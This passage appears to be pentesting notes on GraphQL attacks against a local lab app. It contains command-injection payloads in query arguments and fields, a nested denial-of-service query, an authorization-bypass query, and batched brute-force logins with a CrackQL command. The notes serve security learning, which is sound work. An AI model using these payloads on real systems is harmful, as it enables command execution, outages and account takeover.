 `query={systemDebug(arg:+";+sleep+10;")}`

```
{"query":"mutation ImportPaste ($host: String!, $port: Int!, $path: String!, $scheme: String!) {\n        importPaste(host: $host, port: $port, path: $path, scheme: $scheme) {\n          result\n        }\n      }","variables":{"host":"localhost","port":80,"path":"/; uname -a;","scheme":"http"}} 
							
```

**Discovering GraphQL** -

Discovering graphql is as simple as trying out a few of the common endpoints, as that is usually where it is installed.

 `GET /graphql`

**Resource Intensive Query Attack** - `{pastes(limit:100000){title,public,owner{paste{title,public,owner{paste{title,public,owner{paste{title,public}}}}}}}}}`

This happens because of circular logic. One object leads to another and that same object leads to the first one. This can be used to skip authorization checks or DoS. If we construct a query with the needed ammount of depth, we can DoS. If we use the circular logic to access like this: `query={users(username:"yourusername"){posts(made_by:"notyourusername"){users{username}}}`, we can bypass authorization checks.

**Batch Query Attack** -
 `mutation{login(username:"admin",password:"admin"){accessToken,refreshToken}second:login(username:+"admin",password:"123456"){accessToken,refreshToken}}` or
`python CrackQL.py -t http://localhost:5013/graphql -q sample-queries/login.graphql -i sample-inputs/usernames_and_passwords.csv`

Batch queries - Means we can use a first query, then a second query, which means, multiple queries at the same time, can facilitate bruteforce.

**Aliases based Attack** -

Aliases are means to call the same object in two different ways so that they don't conflict. For example:

```
{
  empireHero: hero(episode: EMPIRE) {
    name
  }
  jediHero: hero(episode: JEDI) {
    name
  }
}
```
WIth result:

```
{
  "data": {
    "empireHero": {
      "name": "Luke Skywalker"
    },
    "jediHero": {
      "name": "R2-D2"
    }
  }
}

```
